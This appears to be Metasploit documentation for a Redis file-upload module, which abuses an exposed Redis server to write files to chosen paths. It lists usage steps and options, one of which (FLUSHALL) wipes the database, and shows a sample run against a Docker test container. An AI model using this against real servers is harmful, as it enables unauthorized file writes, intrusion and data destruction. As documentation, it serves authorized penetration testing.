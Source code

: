 ## Description

Redis is an in-memory data structure project implementing a distributed, in-memory key-value database with optional durability. Redis supports different kinds of abstract data structures, such as strings, lists, maps, sets, sorted sets, HyperLogLogs, bitmaps, streams, and spatial indexes.

This module can be used to leverage functionality exposed by Redis to achieve somewhat arbitrary file upload to a file and directory to which the user account running the redis instance has access.  It is not totally arbitrary because the exact contents of the file cannot be completely controlled given the nature of how Redis stores its database on disk.

## Vulnerable Application

This module is tested on two different Redis server instances.
Virtual testing environments (inside docker container): 

 - Redis 5.0.6
 - Redis 4.0.14

## Verification Steps

  1. Do: `use auxiliary/scanner/redis/file_upload`
  2. Do: `set rhosts [ips]`
  3. Do: `set LocalFile [local_file_path_to_be_uploaded]`
  4. Do: `set RemoteFile [remote_file_destination]`
  5. Do: `run`

## Options

**FLUSHALL**

If set to `true`, redis server will remove all redis data before saving. Defaults to `false`.

**DISABLE_RDBCOMPRESSION**

If set to `false`, redis server will disable compression before saving. Defaults to `true`.

## Scenarios

### Redis:4.0.14 inside a docker container
  ```
msf5 auxiliary(scanner/redis/file_upload) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf5 auxiliary(scanner/redis/file_upload) > set LocalFile redis_upload_test.txt
LocalFile => redis_upload_test.txt
msf5 auxiliary(scanner/redis/file_upload) > set RemoteFile redis_upload_test.txt
RemoteFile => redis_upload_test.txt
msf5 auxiliary(scanner/redis/file_upload) > run

[+] 172.17.0.2:6379       - 172.17.0.2:6379       -- saved 23 bytes inside of redis DB at redis_upload_test.txt
[*] 172.17.0.2:6379       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```